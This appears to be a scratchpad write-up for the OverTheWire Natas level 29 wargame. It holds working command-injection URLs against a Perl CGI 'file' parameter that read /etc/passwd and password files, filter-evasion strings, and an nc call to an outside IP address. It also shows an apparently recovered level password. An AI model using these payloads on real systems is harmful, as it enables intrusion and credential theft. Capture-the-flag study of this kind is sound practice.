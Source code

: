 right clicking blocked?

<div id="content">
H3y K1dZ,<br>
y0 rEm3mB3rz p3Rl rit3?<br>
\/\/4Nn4 g0 olD5kewL? R3aD Up!<br><br>

<form action="index.pl" method="GET">
<select name="file" onchange="this.form.submit()">
  <option value="">s3lEcT suMp1n!</option>
  <option value="perl underground">perl underground</option>
  <option value="perl underground 2">perl underground 2</option>
  <option value="perl underground 3">perl underground 3</option>
  <option value="perl underground 4">perl underground 4</option>
  <option value="perl underground 5">perl underground 5</option>
</select>
</form>

meeeeeep!<br><div id="viewsource">c4n Y0 h4z s4uc3?</div>
</div>

http://natas29.natas.labs.overthewire.org/index.pl?file=perl+underground

http://natas29.natas.labs.overthewire.org/index.pl?file=../../../../../../../../etc/natas_webpass/natas29
 meeeeeep!

http://natas29.natas.labs.overthewire.org/index.pl?file=|echo "test"
test.txt 

aoeusntr

http://natas29.natas.labs.overthewire.org/index.pl?file=|echo "a" > aoeusntr; cat "a"

http://natas29.natas.labs.overthewire.org/index.pl?file=|echo%20%22$(cat%20/etc/passwd)%22
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...

so yea, i can confirm this is a vuln

http://natas29.natas.labs.overthewire.org/index.pl?file=|echo%20%22$(cat%20/etc/natas_webpass/natas29)%22
still meep

%00 meddling doesnt work

http://natas29.natas.labs.overthewire.org/index.pl?file=|echo "$(cp /etc/natas_webpass/natas30 .; cat natas30)"

things i tried:

nc -v 186.177.166.94 1234

perl -e "open(fh, '/etc/n'.'atas_webpass/n'.'atas30') or die 'cant'; $l = <fh>; print '$l';"

open(fh, '/etc/n'.'atas_webpass/n'.'atas30') or die 'cant'; $l = <fh>; print '$l';

cat $(perl -e "print '/etc/n'.'atas_webpass/n'.'atas30'")

 WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH.txt

goat

https://labs.detectify.com/writeups/local-file-inclusions-in-perl-cgi/
https://www.xed.ch/lwm/securitynotes.html
